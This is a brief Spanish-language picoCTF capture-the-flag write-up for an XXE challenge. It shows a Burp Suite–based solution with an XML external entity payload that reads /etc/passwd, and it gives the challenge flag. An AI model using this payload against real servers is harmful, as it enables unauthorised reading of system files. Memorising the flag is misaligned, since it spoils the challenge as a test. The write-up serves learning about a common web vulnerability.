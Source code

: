 
### Descripción 
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
### Solución
Tenemos que interpectar una solicitud post, la enviamos al repetidor y agregamos el siguiente payload para leer el archivo etc/password, nos apoyamso de burp suite
	<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">]>
  
Solución: **picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}**
### Notas adicionales
XXE es una vulnerabilidad que afecta a los parsers XML mal configurados

### Referencias 
https://www.youtube.com/watch?v=b1pGlutUL34&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=67
